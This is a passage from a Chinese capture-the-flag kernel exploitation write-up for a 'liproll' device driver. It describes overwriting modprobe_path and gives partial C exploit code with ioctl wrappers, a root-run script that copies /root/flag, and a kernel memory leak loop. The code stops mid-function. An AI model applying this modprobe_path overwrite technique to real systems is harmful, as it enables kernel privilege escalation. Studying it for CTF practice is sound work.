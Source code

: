 那么即可将 `global_buffer`的地址修改为 `modprobe_path`的地址。然后我们再次执行 `cast_a_spell`向 `modprobe_path`地址处写入我们自己伪造的`shell`文件。即可实现获得`flag`。

`EXP`如下：

```
#include &lt;string.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;sys/ioctl.h&gt;
#include &lt;sys/prctl.h&gt;

typedef struct Spell_struct`{`
    char* buf;
    unsigned int * size; 
`}`Spell;

void create(int fd)`{`
    if(0 &lt; ioctl(fd, 0xD3C7F03))`{`
        printf(' create error\n');
    `}`
`}`

void choose(int fd, unsigned int arg3)`{`
    if(0 &lt; ioctl(fd, 0xD3C7F04, &amp;arg3))`{`
        printf(' choose error\n');
    `}`
`}`

void cast(int fd, Spell arg3)`{`
    if(0 &lt; ioctl(fd, 0xD3C7F01, &amp;arg3))`{`
        printf('cast error\n');
    `}`
`}`

void init(int fd, unsigned int arg3)`{`
     if(0 &lt; ioctl(fd, 0xD3C7F02, &amp;arg3))`{`
        printf('cast error\n');
    `}`
`}`

void main()`{`
    system("echo -ne '#!/bin/sh\n/bin/cp /root/flag /tmp/flag\n/bin/chmod 777 /tmp/flag' &gt; /tmp/getflag.sh");
    system("chmod +x /tmp/getflag.sh");
    system("echo -ne '\\xff\\xff\\xff\\xff' &gt; /tmp/fl");
    system("chmod +x /tmp/fl");

    int fd = 0;
    fd = open("/dev/liproll",O_RDWR);

    create(fd);
    create(fd);
    char buffer[0x200] = `{` 0 `}`;
    choose(fd, 0);

    choose(fd, 16);
    read(fd, buffer, 0x100);
    for(int i=0; i&lt;60; i++)`{`
         printf("buffer_value: %d 0x%x\n", i, (int)buffer[i]);
    `}`
```